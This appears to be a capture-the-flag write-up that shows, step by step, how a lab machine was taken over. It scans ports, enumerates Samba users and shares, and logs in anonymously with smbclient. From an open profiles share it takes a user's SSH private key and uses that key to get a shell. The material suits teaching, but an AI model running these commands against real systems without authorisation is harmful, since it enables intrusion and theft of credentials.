 # SMB Enumeration and Exploitation

## 1. Initial Port Scanning

We begin by scanning the target for open ports using **Naabu** (faster than Nmap).

```bash
naabu -host <target-ip>
```
![](images/sm1.png)

From the results, port **445** is open which commonly indicates SMB is available. We confirm with a service/version scan using Nmap.

```bash
nmap -sS -Pn -sV <target-ip>
```
![](images/sm2.png)

Nmap confirms that **Samba** is running on ports **445** and **139**.

---

## 2. SMB Enumeration

We use `enum4linux` to gather detailed SMB-related information.

```bash
enum4linux -a <target-ip>
```

### Key Output:
```
OS Info: POLOSMB server (Samba, Ubuntu)
Sharename       Type      Comment
---------       ----      -------
netlogon        Disk      Network Logon Service
profiles        Disk      Users profiles
print$          Disk      Printer Drivers
IPC$            IPC       IPC Service

Enumerated Users:
S-1-22-1-1000 Unix User\cactus
S-1-22-1-1001 Unix User\ubuntu
```
This gives us valid usernames and share names and more information.

---

## 3. Connecting to SMB Shares

Try accessing the share using `smbclient`:

```bash
smbclient //10.10.31.150/profiles -U "Anonymous" -p 445
```
If no password is required, you'll get access.

```bash
smb: \> dir
Working From Home Information.txt
.ssh/
```
We find interesting files including `.ssh` and a text file with credentials hints.

Download file for further inspection:

```bash
get "Working From Home Information.txt"
```

### Content of the file:
```
John Cactus,

...your account has now been enabled with SSH access to the main server...
```

This suggests SSH access is available for user **cactus**.

---

## 4. SSH Access from Private Key

Explore the `.ssh` directory and retrieve the **id_rsa** file (private key).

```bash
get id_rsa
```

Change permissions locally to avoid SSH warnings:

```bash
chmod 600 id_rsa
```

Then connect using SSH:

```bash
ssh -i id_rsa cactus@<target-ip>
```
![](images/flag.png)

---

## 5. Conclusion

-  Enumerated SMB shares and discovered `.ssh` folder.
-  Retrieved private key for user `cactus`.
-  Gained shell access through SSH and captured the flag.

> **Lesson:** Unrestricted SMB shares can expose sensitive data such as private SSH keys, leading to full system compromise.

---

**Tools Used**: `naabu`, `nmap`, `enum4linux`, `smbclient`, `ssh`